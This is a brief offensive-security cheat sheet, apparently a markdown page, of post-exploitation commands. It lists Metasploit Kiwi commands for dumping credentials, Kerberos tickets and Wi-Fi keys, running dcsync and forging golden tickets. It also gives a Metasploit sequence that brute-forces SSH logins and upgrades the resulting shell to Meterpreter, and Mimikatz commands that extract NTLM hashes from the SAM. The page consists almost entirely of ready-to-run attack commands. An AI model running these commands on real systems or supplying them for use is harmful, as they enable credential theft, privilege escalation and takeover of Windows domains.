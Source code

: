 Kiwi

```
getsystem
load kiwi
creds_all
creds_kerberos
creds_livessp
creds_msv
creds_ssp
creds_tspkg
creds_wdigest
dcsync
dcsync_ntlm
golden_ticket_create
kerberos_ticket_list
kerberos_ticket_purge
kerberos_ticket_use
kiwi_cmd
lsa_dump_sam
lsa_dump_secrets
password_change
wifi_list
wifi_list_shared
```

### Meterpreter from Shell

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set rhosts
set username
set password
exploit
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set session 1
exploit
sessions
sessions 2
```



### Mimikatz

##### Extract NTLM Hashes from local SAM

```
privilege::debug
token::elevate
lsadump::sam
```
